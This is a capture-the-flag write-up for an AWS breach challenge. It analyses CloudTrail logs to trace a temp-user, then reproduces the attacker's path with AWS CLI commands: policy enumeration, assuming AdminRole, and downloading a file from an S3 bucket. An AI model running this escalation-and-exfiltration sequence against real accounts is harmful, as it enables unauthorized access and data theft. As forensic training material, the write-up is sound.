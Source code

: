# Breach in the Cloud
## Analyze the challenge

The challenge presents a scenario of a potential security breach in an AWS account. We are provided with AWS credentials, CloudTrail logs, and a task to identify the breach, the compromised AWS service, and any exfiltrated data. The final goal is to retrieve a flag, which is likely hidden in the exfiltrated data.

## Plan of action

1. **Setup:**
    *   Download and extract the provided CloudTrail logs.
    *   Prettify the JSON logs for better readability.

2. **Initial Analysis:**
    *   Identify unique usernames from the logs to pinpoint suspicious activity.
    *   Focus on the `temp-user` as it deviates from the naming convention.

3. **Detailed Log Examination:**
    *   Analyze logs chronologically, starting with the earliest timestamp.
    *   Trace the actions of `temp-user`, paying attention to:
        *   `GetCallerIdentity` calls.
        *   Source IP addresses.
        *   Failed attempts to access resources (especially S3 buckets).
        *   Permission enumeration attempts (noting AccessDenied errors).
        *   Successful `AssumeRole` calls.

4. **Identifying the Breach:**
    *   Determine the sequence of events leading to successful data access.
    *   Identify the role that was assumed (`AdminRole`).
    *   Pinpoint the accessed S3 bucket (`emergency-data-recovery`).
    *   Note which files were downloaded (`emergency.txt`).

5. **Simulating the Attacker:**
    *   Configure the AWS CLI with the provided credentials.
    *   Verify the initial identity using `aws sts get-caller-identity`.
    *   Examine user policies using `aws iam list-user-policies` and `aws iam get-user-policy`.
    *   Assume the `AdminRole` using `aws sts assume-role`.
    *   Update AWS CLI configuration with the new credentials.
    *   Verify the new identity using `aws sts get-caller-identity`.

6. **Data Retrieval and Flag Extraction:**
    *   List the contents of the `emergency-data-recovery` bucket using `aws s3 ls`.
    *   Download `emergency.txt` using `aws s3 cp`.
    *   Extract the flag from `emergency.txt`.

## Perform the steps to identify the breach

### Step 1: Setup
1. Download the CloudTrail logs (INCIDENT-3252.zip).
2. Extract the logs: `unzip INCIDENT-3252.zip -d INCIDENT-3252`
3. Navigate to the extracted directory: `cd INCIDENT-3252`
4. Prettify the JSON files:

```bash
for file in *.json; do jq . "$file" > "$file.tmp" && mv "$file.tmp" "$file"; done
```

### Step 2: Initial Analysis

1. Identify unique usernames:

```bash
grep -r userName | sort -u
```
2. This should show the temp-user

### Step 3: Detailed Log Examination

1. Examine the earliest log file (e.g., `107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json`):

```bash
grep -h -A 10 temp-user 107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json
```
2. Check the source IP:
    * `curl ipinfo.io/84.32.71.19` 
3. Examine subsequent log files for failed S3 access and AccessDenied errors.
    * `nano 107513503799_CloudTrail_us-east-1_20230826T2040Z_UkDeakooXR09uCBm.json`
    * `grep errorMessage 107513503799_CloudTrail_us-east-1_20230826T2050Z_iUtQqYPskB20yZqT.json | wc -l`
    * `grep errorMessage 107513503799_CloudTrail_us-east-1_20230826T2055Z_W0F5uypAbGttUgSn.json | wc -l`
4. Look for successful AssumeRole:

```bash
grep -A 20 temp-user 107513503799_CloudTrail_us-east-1_20230826T2100Z_APB7fBUnHmiWjHtg.json
```

5. Verify role assumption:

```bash
grep -A 20 AdminRole 107513503799_CloudTrail_us-east-1_20230826T2105Z_fpp78PgremAcrW5c.json
```
6. Find S3 access and file download:
   * `grep eventName 107513503799_CloudTrail_us-east-1_20230826T2120Z_UCUhsJa0zoFY3ZO0.json`

### Step 4: Identifying the Breach

*   The breach involved `temp-user` assuming the `AdminRole` and accessing the `emergency-data-recovery` S3 bucket.
*   The file `emergency.txt` was downloaded.

### Step 5: Simulating the Attacker

1. Configure AWS CLI:

```bash
aws configure
```
    *   Enter the provided Access Key ID and Secret Access Key.
    *   Set the region to `us-east-1`.
2. Verify initial identity:

```bash
aws sts get-caller-identity
```

3. List user policies:

```bash
aws iam list-user-policies --user-name temp-user
```

4. Get user policy:

```bash
aws iam get-user-policy --user-name temp-user --policy-name test-temp-user
```

5. Assume AdminRole:

```bash
aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name MySession
```

6. Update AWS CLI configuration with the new credentials from the output of the previous command.

```bash
aws configure
#then
aws configure set aws_session_token "<session_token>"
```

7. Verify new identity:

```bash
aws sts get-caller-identity
```

### Step 6: Data Retrieval and Flag Extraction

1. List bucket contents:

```bash
aws s3 ls s3://emergency-data-recovery
```

2. Download `emergency.txt`:

```bash
aws s3 cp s3://emergency-data-recovery/emergency.txt .
```

3. View the file to find the flag:

```bash
cat emergency.txt
```
* The flag is: **xxxxxxxxxxxxxxxxxxxxxxxxxxxx3663**